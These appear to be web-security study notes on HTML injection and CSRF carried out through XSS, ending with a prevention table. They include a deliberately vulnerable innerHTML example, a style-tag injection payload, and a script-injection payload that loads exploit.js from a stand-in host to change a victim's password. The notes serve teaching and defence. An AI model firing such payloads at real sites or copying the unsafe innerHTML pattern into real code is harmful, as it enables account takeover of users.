 


---


# FRONT END COMPONENTS

###### HTML Injection
- when unfiltered user input is displayed on the page.
- by directly displaying unfiltered user input through `JavaScript` on the front end.

#### Example
```html
<!DOCTYPE html>
<html>

<body>
    <button onclick="inputFunction()">Click to enter your name</button>
    <p id="output"></p>

    <script>
        function inputFunction() {
            var input = prompt("Please enter your name", "");

            if (input != null) {
                document.getElementById("output").innerHTML = "Your name is " + input;
            }
        }
    </script>
</body>

</html>
```

**PAYLOAD:**
```html
<style> body { background-image: url('https://academy.hackthebox.com/images/logo.svg'); } </style>
```

---
# Cross-Site Request Forgery (CSRF)
- utilize `XSS` vulnerabilities to perform certain queries, and `API` calls on a web application
- allow the attacker to perform actions as the authenticated user
- gain higher privileged access to a web application
- javascript payload=>victim views the payload=>changes the victim's password=>set password by attacker

```html
"><script src=//www.example.com/exploit.js></script>
``` 
- `exploit.js` file  contain the malicious `JavaScript` code that changes the user's password
## Prevention
| Type           | Description                                                                                                 |
| -------------- | ----------------------------------------------------------------------------------------------------------- |
| `Sanitization` | Removing special characters and non-standard characters from user input before displaying it or storing it. |
| `Validation`   | Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format) |
- modern browsers have built-in anti-CSRF measures
- pervent executing js code
- including  HTTP headers and flags that  prevent automated requests (i.e., `anti-CSRF` token, or `http-only`/`X-XSS-Protection`).
---